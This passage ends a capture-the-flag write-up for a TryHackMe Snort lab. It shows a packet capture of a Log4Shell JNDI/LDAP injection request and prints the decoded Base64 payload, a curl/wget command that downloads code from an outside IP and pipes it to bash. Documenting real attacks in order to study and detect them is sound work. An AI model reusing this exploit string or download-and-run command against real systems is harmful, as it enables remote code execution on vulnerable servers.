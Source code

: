 ![Untitled](THM%20Snort%20Challenge%20The%20Basics%20aebe836cd2594c599a5d471659d5d1e7/Untitled%2082.png)

Locate the encoded message inside the packet at very bottom.

05:06:07.579734 IP 45.155.205.233.39692 > 91.247.71.198.host.secureserver.net.http: Flags [P.], seq 3701105179:3701105954, ack 2610081736, win 502, options [nop,nop,TS val 1584792788 ecr 1670627000], length 775: HTTP: GET /?x=${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/**KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g**=} HTTP/1.1

Use any Base64 decoder to decode the message

![Untitled](THM%20Snort%20Challenge%20The%20Basics%20aebe836cd2594c599a5d471659d5d1e7/Untitled%2083.png)

**Answer:** (curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash

**What is the CVSS v2 score of the Log4j vulnerability?**

Again, Google is our friend.

![Untitled](THM%20Snort%20Challenge%20The%20Basics%20aebe836cd2594c599a5d471659d5d1e7/Untitled%2084.png)

**Answer:** 9.3

Hope you enjoyed the room and my write-up